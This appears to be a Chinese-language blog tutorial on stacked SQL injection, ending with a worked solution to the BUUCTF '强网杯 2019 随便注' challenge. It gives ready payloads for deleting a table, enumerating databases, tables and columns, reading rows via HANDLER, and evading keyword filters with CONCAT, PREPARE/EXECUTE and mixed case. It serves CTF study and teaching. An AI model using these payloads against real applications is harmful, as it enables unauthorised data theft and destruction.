 ```yaml
---
title: 堆叠注入
date: '2022/1/23 23:15:01'
categories:
  - - WEB安全
    - 注入
    - SQL
description: sql注入--堆叠注入
abbrlink: 5c5063b6
tags:
---
```


# 堆叠注入

当```select```被过滤时候可以考虑是否存在堆叠注入
堆叠注入是利用```;```来执行多条sql语句
比如说类似```select * from users where id=1;select 1,2,3;```这样的语句

堆叠注入可以执行的是任意的语句。

例如用户输入：
```sql
1; DELETE FROM products
```
若未对输入的参数进行过滤，服务器端生成的sql语句可能为： 
```sql
select * from products where productid=1;DELETE FROM products
```
当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。

> 堆叠注入和union injection（联合注入）区别：
union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句

## 常用函数和方法
### show函数

> 查询数据库
```sql
show databases
```
> 查询表名
```sql
show tables
```
> 查询字段（从words表查询字段）
```sql
show columns from words
```
> 从表里面查这个columns，要用反引号
```sql
show columns from `1919810931114514`;
```
### 使用handler函数

>mysql可以使用select查询表中的数据，也可使用handler语句，这条语句是一行一行的浏览一个表中的数据。
handler可以用于MyISAM和InnoDB表。

使用方法：
>handler table_name open打开一张表
handler table_name read first读取第一行内容，
handler table_name read next依次获取其它行
最后一行执行之后再执行handel table_name read next会返回一个空的结果。

示例：
```sql
?a=-1';handler `1919810931114514` open;handler `1919810931114514` read first;#
```

### 使用预编译绕过

> set用于设置变量名和值
prepare用于预备一个语句，并赋予名称，以后可以引用该语句
execute执行语句

示例：
```sql
-1';set @sql = CONCAT('sele','ct * from `1919810931114514`;');prepare aaa from @sql;EXECUTE aaa;#
```

当set和prepare被过滤时可以考虑大小写绕过
```sql
1';sEt @sql = CONCAT('sele','ct * from `1919810931114514`;');prepArE aaa from @sql;EXECUTE aaa;#
```

参考来源：https://blog.csdn.net/nicesa/article/details/106390405

## 例题

> 来自buuctf上面的[强网杯 2019]随便注

发现select、update、delete、drop、insert、where基本上都被过滤了

payload：

库名
```sql
?inject=-1';show databases;%23
```
表名
```sql
?inject=-1';show tables;%23
```
字段名
```sql
?inject=-1';show columns from `1919810931114514`;%23
```
获得内容
```sql
?inject=-1';handler `1919810931114514` open;handler `1919810931114514` read first;%23
```
或者
```sql
?inject=-1';sEt @sql = CONCAT('sele','ct * from `1919810931114514`;');prepArE aaa from @sql;EXECUTE aaa;%23
```



